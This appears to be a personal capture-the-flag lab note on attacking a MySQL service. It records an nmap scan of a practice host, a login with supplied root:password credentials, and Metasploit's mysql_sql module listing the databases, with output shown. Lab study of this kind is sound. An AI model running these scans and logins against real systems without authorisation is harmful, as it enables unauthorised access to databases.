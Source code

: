 
## MySQL (Relational Database Management System (RDBMS))

^761bd1

***Exporting ip***

First export the remote host IP to an local variable. 

```bash
export IP='10.10.239.122'
```


***Initial nMap scan***

Now the initial nmap scan will be done. For this a simple scan of first 10k ports should be sufficient.

```bash
sudo nmap -vv -sS -p1-10000 -O $IP -oN nmap/initial
```

	Results:
	PORT     STATE SERVICE REASON
	22/tcp   open  ssh     syn-ack
	3306/tcp open  mysql   syn-ack

***Testing login with given credentials***
	root:password
	
```bash
mysql -h $IP -u root -p
# lets exit the mysql console
MySQL [(none)]> exit
```

***Starting Metasploit and get SQL Informations***

```bash
msfconsole
search mysql_sql
use 0
options to change -> PASSWORD / RHOSTS / USERNAME
exploit
```

	Results
	5.7.29-0ubuntu0.18.04.1
	
*to get databses *
```bash
# in msf
set SQL show databases
exploit
```

	Results
	[*] 10.10.239.122:3306 -  | information_schema |
	[*] 10.10.239.122:3306 -  | mysql |
	[*] 10.10.239.122:3306 -  | performance_schema |
	[*] 10.10.239.122:3306 -  | sys |
